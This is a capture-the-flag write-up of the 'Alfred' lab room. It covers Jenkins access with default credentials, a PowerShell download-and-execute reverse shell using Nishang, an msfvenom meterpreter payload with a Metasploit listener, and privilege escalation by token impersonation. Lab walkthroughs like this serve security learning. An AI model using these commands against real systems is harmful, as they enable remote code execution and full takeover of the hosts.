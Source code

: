 ***STILL IN THE WORKS!***

Room: Alfred

Difficulty:

Overview:

------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we need to scan for all open ports using nmap, but since the machine doesn't respond to ping (ICMP) we need to adjust the scan:

```
nmap  -Pn -A -p- 10.10.101.250 -T4

-Pn   → Because the machine don't respond to ping
-A    → Enable OS detection, version detection, script scanning, and traceroute
-p-   → Scan all ports
-T4   → To speed the scan (this loses some accuracy), otherwise it would take more time to complete.
```

![Alfred_nmap_scan](https://user-images.githubusercontent.com/76821053/118020693-4ae2cd80-b352-11eb-8f5c-5e8250883d63.png)

The http at port 8080 hosted a jenkins server. We can try default credentials and this one was pretty simple.

![jenkins_8080](https://user-images.githubusercontent.com/76821053/118023732-c8f4a380-b355-11eb-8ea8-ee409d9ddc01.png)

We can created a new project inside Jenkins. At configurations we have a field called Build that let us do commands, so we can use the powershell command given by the room:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

In my case i used the below command, where i change the ip and port to match my machine.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://My_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress My_IP -Port 9001
```

To breakdown this command we can tell that the first part of the command will download a file from a specific website or server, in this case from my kali machine and the 
second part of the command tells the windows machine to execute it in order for us to get a reverse shell.

For this command to work and get a reverse shell on our machine we need to setup a few things:

-- Download Nishang "Invoke-PowerShellTcp.ps1" payload script provided by the room. Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security.

-- A python SimpleHTTPServer in order to host the file that the remote machine will try to donwload. We can do this by typing this command on a kali machine:

```
python -m SimpleHTTPServer
```

![pythonserver](https://user-images.githubusercontent.com/76821053/118032170-3fe26a00-b35f-11eb-919e-8483e5469701.png)

-- Start a netcat listener on the port we chose:

![nclistener](https://user-images.githubusercontent.com/76821053/118028995-9c438a80-b35b-11eb-8463-7b4c797b97d2.png)

After setting all up we just start a new project on jenkins server (in my case i called it admin), add the command to the build tab and just run it:   

![jenkinsproject](https://user-images.githubusercontent.com/76821053/118030688-88992380-b35d-11eb-89a6-74a434f02cb0.png)

We can see that the remote machine downloads the script and run it:

![pythonhttpserver](https://user-images.githubusercontent.com/76821053/118028046-85e8ff00-b35a-11eb-8d9c-32d510ae7b57.png)

Our listener recieves a reverse shell connection:

![image](https://user-images.githubusercontent.com/76821053/131248468-e25aedea-532e-4088-9712-9bd282dfeede.png)

To search for the flag or any specific file we can use the following command:

```
Get-ChildItem -Path C:\ -Recurse "user.txt" -ErrorAction SilentlyContinue

-Path  → Choose the path you want
-Recurse → To recursively search subdirectories  
-ErrorAction SilentlyContinue → To ignore errors
```

![image](https://user-images.githubusercontent.com/76821053/131248549-cfdf06bb-a839-4f28-9f46-be8db0b1e6e1.png)

We can now read the flag by using “type”:

![image](https://user-images.githubusercontent.com/76821053/131248555-010718a7-d90e-4611-bc37-c3073abb3be3.png)

Now let's upgrade our shell to a meterpreter one. To do so we need to create a payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai -o payload.exe LHOST=YOUR_IP_ADDRESS LPORT=CHOOSE_A_PORT
```

![image](https://user-images.githubusercontent.com/76821053/131249292-4efa51fe-c0cf-4e8d-be24-6f5972d5d5ea.png)

In this case i created a meterpreter .exe payload encoded with shikata_ga_nai. If we check the size of the payload we can answer on of the questions of the room.

To upload this payload to the target machine we need once again to host this file in a SimpleHTTPServer:

![image](https://user-images.githubusercontent.com/76821053/131248806-8c6499d4-59d5-43bc-b641-eb9b2fa93b30.png)

From the target machine we can request it with this powershell command:

![image](https://user-images.githubusercontent.com/76821053/131248869-353d8387-5417-47f7-a09c-51b318e122e4.png)

Now that we have the payload ready we need to start a meterpreter listener. So we are going to fire up metasploit.

We need to change some parameters to match our payload, ip address and port:

```
use multi/handler  → Choose exploit, in this case a listener

set payload windows/meterpreter/reverse_tcp  →  Set the same payload used in the our msfvenom payload

set LHOST your_ip_address  →  Choose your ip address

set LPORT payload_chosen_port  → Choose the same port has the payload that we created with msfvenom

options  →  To list all the available options

run  →  To start the listener
```

![image](https://user-images.githubusercontent.com/76821053/131249057-b7e4e405-8711-4645-887c-04ef0d547e59.png)

On the target machine we just have to run the payload.exe file:

```
.\payload.exe 

or

Start-Process “payload.exe”
```

![image](https://user-images.githubusercontent.com/76821053/131249240-10687032-47d2-4c79-a18d-dd7dc907934a.png)

Moments after we got a shell on the meterpreter session:

![image](https://user-images.githubusercontent.com/76821053/131249265-80c1e8fb-2b93-49ee-883b-9b56e565f3c6.png)

If you want to change the meterpreter shell to a regular one you can just type "shell". And, to back out just type "exit".

Before we can actually take full control of the system we can check what privileges the current user has:

```
whoami /priv
```

![image](https://user-images.githubusercontent.com/76821053/131886602-0fc697f7-5ca3-4df8-894a-f08e82f7f6af.png)

If we look closely there are two important privileges (SeDebugPrivilege and SeImpersonatePrivilege) enabled. And by using a module call "incognito" we can take advantage of this privileges and privesc vertically to NT Authority.

To load a module just use:

```
load incognito
```

![image](https://user-images.githubusercontent.com/76821053/131887372-becfb5c2-539a-4afa-a0f1-cd01bace22bd.png)

Now we need to check what tokens are available and use the a function called "impersonate_token" command to impersonate the Administrators token:

```
list_tokens -g
```

![image](https://user-images.githubusercontent.com/76821053/131887656-15e5862a-4355-4821-8c80-5b759401133d.png)

Since "BUILTIN\Administrators" token is available we just need to impersonate it:

```
impersonate_token "BUILTIN\Administrators"
```

![image](https://user-images.githubusercontent.com/76821053/131887920-d1ce7a11-bb96-4fd8-8da4-495be871f94f.png)

Success we are now "NT Authority\System"!

We have to ensure that we migrate our process to a process with correct permissions where the process is running by "NT Authority\System":

To list processes:

```
ps
```

![image](https://user-images.githubusercontent.com/76821053/131888441-6f8e19e1-3c4f-44c1-8bbf-1852f2a38ad8.png)

Migrating to a different process:

```
migrate 668
```

![image](https://user-images.githubusercontent.com/76821053/131888518-ecc9cad4-06ac-432b-b450-5c4d607001d5.png)

Now that we currently have the right process and permissions we can read the final flag of the room.

The flag is at "C:\Windows\System32\config":

![image](https://user-images.githubusercontent.com/76821053/131888701-f366c4ac-635b-45f3-af90-413fc6cff4cd.png)





